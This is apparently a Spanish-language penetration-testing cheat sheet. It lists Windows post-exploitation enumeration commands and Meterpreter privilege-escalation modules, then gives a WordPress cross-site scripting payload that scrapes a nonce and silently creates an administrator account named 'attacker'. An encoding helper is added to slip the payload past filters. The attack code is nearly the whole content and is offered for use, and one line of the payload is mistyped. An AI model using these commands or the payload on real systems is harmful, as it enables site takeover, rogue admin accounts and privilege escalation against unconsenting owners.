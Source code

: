 ```sh
tree /f /a
systeminfo 
type boot.ini 
hostname
ipconfig /all
netstat -ano
nmap.exe -p - -sV localhost 
net users
net localgroups 
route print
arp -A
netsh firewall show state
netsh firewall show config
schtasks /query /fo LIST /v
schtasks /query /fo LIST /v
net start
accesschk.exe -uwcqv "Authenticated Users" *
dir network-secret.txt /s
Meterpreter Tools
run arp_scanner -r 1.1.1.0/24

use auxiliary/scanner/portscan/tcp

use post/windows/escalate/getsystem
```

## XXS to Priv Esc

### Wordpress

Payload a utilizar, este crea un usuario y obtiene un nonce que es necesario para la funcion de crear

```js
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
r params = "action=createuser&_wpnonce_createuser="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

Codifica el payload, esto se usa para poder evitar problemas a la hora de explotar

```js
function encode_to_javascript(string) {
 var input = string
 var output = '';
 for(pos = 0; pos < input.length; pos++) {
 output += input.charCodeAt(pos);
 if(pos != (input.length - 1)) {
 output += ",";
 }
 }
 return output;
 }
 
```
